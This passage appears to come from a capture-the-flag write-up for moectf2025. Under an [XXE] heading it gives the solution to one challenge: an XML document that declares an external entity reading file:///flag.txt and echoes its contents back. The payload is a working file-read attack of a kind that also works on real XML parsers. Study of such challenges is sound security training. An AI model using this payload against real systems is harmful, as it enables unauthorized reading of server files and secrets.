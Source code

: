 ![image.png](./moectf2025wp/image_10.png)

---

## [XXE] 10 第十章 天机符阵_revenge

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///flag.txt">
]>
<输出>&file;</输出>
```
